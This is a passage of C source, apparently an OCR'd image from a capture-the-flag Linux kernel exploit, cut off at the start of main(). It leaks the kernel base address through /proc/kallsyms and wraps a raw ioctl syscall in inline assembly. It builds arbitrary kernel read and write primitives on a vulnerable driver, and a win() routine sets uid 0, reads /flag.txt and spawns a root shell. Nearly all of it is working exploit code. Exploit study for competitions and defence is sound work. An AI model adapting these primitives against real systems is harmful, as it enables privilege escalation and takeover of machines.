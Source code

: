 ```c
}

u_int64_t get_kbase() {
    char buf[0x20];
    u_int64_t kbase=0;

    FILE *fp = popen("grep modprobe_path /proc/kallsyms", "r");
    
    fgets(buf, 17, fp);
    sscanf(buf, "%lx", &kbase);
    kbase -= 0x1dc6c20;

    return kbase;
}

u_int32_t naked_ioctl(int fd, int cmd, u_int64_t arg){
    asm volatile (
        ".intel_syntax noprefix\n"
        "mov rdx, %2\n"
        "mov esi, %1\n"
        "mov edi, %0\n"
        "mov rax, 0x10\n"
        "syscall\n"
        ".att_syntax prefix\n"
        :
        : "r" (fd), "r" (cmd), "r" (arg)
        : "rax", "edi", "esi", "rdx"
    );
}

void win(void)
{       
    printf("[+] current uid = %u, current eid = %u\n", getuid(), geteuid());
    setuid(0);
    int fd = open("/flag.txt", O_RDONLY);
    char buf[0x100];
    read(fd, buf, 0x100);
    puts(buf);
    system("/bin/sh");
    while(1){}
}

void pin_cpu(int core){
	cpu_set_t cpu;
    CPU_ZERO(&cpu);
    CPU_SET(core, &cpu);
    sched_setaffinity(0, sizeof(cpu_set_t), &cpu);
}

u_int32_t aar32(u_int64_t where) {
    return naked_ioctl(fd, 0, where);   
}

void aaw32(u_int64_t where, u_int32_t what) {
    naked_ioctl(fd, what, where);   
}

u_int64_t aar64(u_int64_t where) {
    return (((u_int64_t)aar32(where+4))<<32) + (u_int64_t)aar32(where); 
}

int main() {
    pin_cpu(0);
```